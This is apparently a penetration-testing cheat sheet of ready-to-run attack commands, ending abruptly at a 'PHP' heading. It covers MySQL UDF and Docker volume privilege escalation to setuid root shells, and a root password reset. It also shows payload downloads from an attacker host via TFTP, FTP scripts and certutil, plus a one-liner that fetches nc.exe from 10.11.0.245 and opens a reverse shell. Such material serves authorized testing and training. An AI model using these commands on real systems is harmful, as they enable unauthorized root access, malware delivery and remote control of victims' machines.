 use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell');

Docker Privilege Esclation

echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh

Resetting root Password

echo "root:spotless" | chpasswd

Uploading Files to Target Machine
TFTP

#TFTP Linux: cat /etc/default/atftpd to find out file serving location; default in kali /srv/tftp
service atftpd start

# Windows
tftp -i $ATTACKER get /download/location/file /save/location/file

FTP

# Linux: set up ftp server with anonymous logon access;
twistd -n ftp -p 21 -r /file/to/serve

# Windows shell: read FTP commands from ftp-commands.txt non-interactively;
echo open $ATTACKER>ftp-commands.txt
echo anonymous>>ftp-commands.txt
echo whatever>>ftp-commands.txt
echo binary>>ftp-commands.txt
echo get file.exe>>ftp-commands.txt
echo bye>>ftp-commands.txt 
ftp -s:ftp-commands.txt

# Or just a one-liner
(echo open 10.11.0.245&echo anonymous&echo whatever&echo binary&echo get nc.exe&echo bye) > ftp.txt & ftp -s:ftp.txt & nc.exe 10.11.0.245 443 -e cmd

CertUtil

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe

PHP
